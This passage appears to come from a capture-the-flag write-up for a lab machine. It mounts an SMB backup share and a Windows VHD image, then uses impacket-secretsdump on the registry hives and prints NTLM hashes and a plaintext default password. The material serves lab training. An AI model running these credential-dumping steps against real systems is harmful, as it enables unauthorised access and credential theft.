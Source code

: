 Next, we will have to mount the remote share to our mnt/remote folder using the ```mount``` command. The ```ls``` command wiill then list out all the folders from the backups share.

```
┌──(kali㉿kali)-[~/Desktop/mnt]
└─$ sudo mount -t cifs //10.10.10.134/backups /home/kali/Desktop/mnt/remote -o rw

┌──(kali㉿kali)-[~/Desktop/mnt/remote]
└─$ ls
BCNLWYJAUX  CTPUWQROZS  IVUJRPNACQ      note.txt    SDT65CB.tmp         XQFOZPGGAU
BYDMNECSGO  HVOFBDPZAG  nmap-test-file  QNCREVUZAI  WindowsImageBackup
```

Lastly, we will mount the filesystem onto our local machine in the /home/kali/Desktop/mnt/vhd directory using guestmount. However, the first VHD file does not work and we are unable to mount the first VHD file. Fortunately, we are able to mount the second VHD file. 

```
┌──(kali㉿kali)-[~/…/remote/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└─$ guestmount --add /home/kali/Desktop/mnt/remote/WindowsImageBackup/L4mpje-PC/'Backup 2019-02-22 124351'/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /home/kali/Desktop/mnt/vhd -v
```

### Obtaining user credentials

Since the file system is mounted onto our local machine, we will be able to access the registry files on 10.10.10.134.

Navigating to /Desktop/mnt/vhd/Users and exploring the different users directory, we are still unable to find the user flag.

Next, we will try to navigate to /Desktop/mnt/vhd/Windows/System32/config and we are able to find that the registry hives are being stored there.

Next, we will use impacket-secretsdump to dump the password hashes and check if the password hashes can be broken. From the output, we are able to obtain the password of the user, L4mpje

```
┌──(kali㉿kali)-[~/…/vhd/Windows/System32/config]
└─$ impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):bureaulampje
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up... 
```
### Obtaining user flag
